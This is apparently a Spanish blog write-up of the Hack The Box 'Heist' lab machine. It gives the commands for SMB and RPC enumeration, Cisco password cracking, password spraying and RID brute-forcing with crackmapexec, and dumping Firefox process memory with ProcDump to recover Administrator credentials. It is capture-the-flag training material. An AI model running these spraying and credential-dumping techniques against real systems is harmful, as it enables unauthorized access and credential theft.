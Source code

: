 ```yaml
---
layout: post
title: Hack The Box Heist Write-Up
date: 2024-11-10
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [Heist, Enumeration, SMB, HTTP, Password-Spraying, RID-BruteForcing, ProcDump, Cisco-Credentials, Easy, Windows]
---
```


![Heist Logo](/assets/post_details/heist/heist_logo.png)
# Hack The Box: Heist Write-Up
La **maquina easy** [Heist](https://app.hackthebox.com/machines/201) de [Hack The Box](https://app.hackthebox.com) trata una enumeración por servicios **SMB**, **HTTP** y ataques de **fuerza bruta** como **Password Spraying** para conseguir el **FootHold**.
A traves de procesos del sistema con la herramienta **ProcDump** encontramos credenciales para el usuario de mayor privilegio.

## Enumeration
Realizamos una enumeracion de puertos y de servicios en los que se revelan servicios como **IIS http, rpc, smb, winrm**.
```bash
nmap -p135,445,49669,5985,80 -sCV --open 10.10.10.149 -Pn
```
![NMAP](/assets/post_details/heist/heist_nmap.png)

### RPC - SMB
Enumeracion de servicios de cuentas nulas y usuarios por defecto sin exito alguno:
```bash
rpcclient 10.10.10.149 -U ''
rpcclient 10.10.10.149 -U 'guest'

crackmapexec smb 10.10.10.149 -u '' -p ''
crackmapexec smb 10.10.10.149 -u 'guest'
```

### HTTP
Encontramos en el servicio web, un login, el cual podemos logearnos como **guest**.
![WebSite Login](/assets/post_details/heist/heist_website_login.png)

Encontramos una serie de posts los cuales hablan de una configuracion de un router de **Cisco**:
![Chat](/assets/post_details/heist/heist_chat.png)
![Config Leak](/assets/post_details/heist/heist_leak_config.png)

Encontramos varias credenciales hasheadas, buscamos en configuraciones de **Cisco** que estas contraseñas son de tipo 5 y 7, las cuales pueden ser crackeadas con esta [heramienta](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html).
![Cisco Password 1](/assets/post_details/heist/heist_decrypt_cisco_password_1.png)
![Cisco Password 2](/assets/post_details/heist/heist_decrypt_cisco_password_2.png)
## FoothHold
Utilizamos **john** para crackear el secreto encontrado:
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![John Password](/assets/post_details/heist/heist_john.png)

### Password Spraying
Realizamos un ataque de **Password Spraying** con la herramienta **CME**, utilizando un diccionario de usuarios el cual previamente hemos enumerado:
```bash
crackmapexec smb 10.10.10.149 -u users.txt -p 'stealth1agent'
```
![CME Password Spray 1](/assets/post_details/heist/heist_cme_password_spray_1.png)

El usuario `Hazard` no esta en el grupo `Remote Management Users` por lo que no nos logea. Conectandonos a traves de **smbclient** con las credenciales validas no obtenemos ningunos datos.

### RID BruteForcing
Tratamos de enumerar usuarios usando **RID Bruteforce**, **RID** se refiere al **Relative Identifier**, este es una parte del **SID (Security Identifier)** usado unicamente para identificar a un usuario o servicio en un host de Windows.
![RID Structure](/assets/post_details/heist/heist_rid_structure.png)

El dominio o identificador local es una constante dada por la maquina, mientras que el **RID** es unico, por lo que podemos tratar de enviar una query hacia `Local Computer Identifier`, de esta forma enumeraremos todos los **SIDs** validos.
```bash
# --rid-brute
crackmapexec smb 10.10.10.149 -u hazard -p 'stealth1agent' --rid-brute
```
![CME RDI Brute](/assets/post_details/heist/heist_cme_rid_brute.png)

### Password Spraying All Users
Una vez tenemos otra lista de usuarios, realizamos otro ataque **Password Spraying** con las credenciales encontradas anteriormente de las configuraciones de **Cisco**.
```bash
crackmapexec smb 10.10.10.149 -u ad_users.txt -p 'Q4)sJu\Y8qz*A3?d'
```
![CME Password Spray 2](/assets/post_details/heist/heist_cme_password_spray_2.png)
## PrivEsc
Nos conectamos con la herramienta **evil-winrm** a traves del protocolo **winrm**, en el **Desktop** del usuario **Chase** encontramos un **todo** en el que se muestra que el usuario deberá estar chequeando:
![TODO Notes](/assets/post_details/heist/heist_todo_notes.png)

Realizamos una enumeracion de procesos dentro del sistema, en los que encontramos que se esta corriendo **firefox**, esto en una maquina es raro, podria estar alojando el servicio web como administrador.
![Command Get Process Firefox](/assets/post_details/heist/heist_firefox_process.png)

### ProcDump
Nos ayudamos de la utilidad **ProcDump** para dumpear los procesos en memoria, estos procesos pueden contener informacion valiosa, descargamos la herramienta desde la suite de Microsoft.
![Procdump](/assets/post_details/heist/heist_procdump.png)

Subimos la herramienta con `upload` desde **evil-winrm**, debemos aceptar las condiciones de **eula** para poder usar la herramienta. Con la flag **-ma** indicamos el identificador del proceso y por ende queremos un dumpeo a full.
```powershell
# Aceptamos las condiciones
.\procdump64.exe -accepteula

# Hacemos uso de la herramienta .\procdump64.exe -ma id name
.\procdump64.exe -ma 6408 firefox.dmp

# Descargamos el dump
download firefox.dmp

# Buscamos las credenciales por las strings filtrando
strings firefox.dmp | grep password
```
![Procdump](/assets/post_details/heist/heist_get_password.png)

Una vez tenemos las credenciales del usuario **Administrator** accedemos al sistema a traves de **winrm**:
```bash
evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

psexec.py 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'
```

